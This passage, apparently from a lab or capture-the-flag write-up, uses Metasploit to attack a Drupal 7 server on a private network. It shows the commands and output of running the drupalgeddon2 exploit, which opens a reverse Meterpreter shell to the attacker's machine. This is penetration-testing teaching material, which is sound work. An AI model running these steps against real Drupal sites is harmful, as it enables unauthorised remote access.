I didn't find anything useful here, so let's move on.

#### Exploitation
We all know that *PHP* websites are... leaky? They have more security holes than JS has bad designs... So that's a lot.

To found out if our service is vulnerable, we will use *metasploit* framework. If you don't know what it is - check out their [website](https://www.metasploit.com).

We use `search` command to list all classified exploits:
``` bash
msf6 > search drupal 7
```
Again, we receive a lot of information:
![metasploit framework search result](msf_search.png)

These are the exploits that can be valid for *Drupal 7*. Let's enumerate over them and check if one of them works.

**drupal_coder_exec**
``` bash
msf6 > use 0
msf6 exploit(unix/webapp/drupal_coder_exec) > set RHOSTS 192.168.1.21
msf6 exploit(unix/webapp/drupal_coder_exec) > check

[*] 192.168.1.21:80 - The target is not exploitable.
```

So the first one is not available. Okay, let's check the next one.

**drupalgeddon2**
``` bash
msf6 > use 1
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 192.168.1.21
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > check

[*] 192.168.1.21:80 - The service is running, but could not be validated.


msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 192.168.1.20:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (39927 bytes) to 192.168.1.21
[*] Meterpreter session 1 opened (192.168.1.20:4444 → 192.168.1.21:35763) at 2024-08-08 05:23:14 -0700

meterpreter >
```
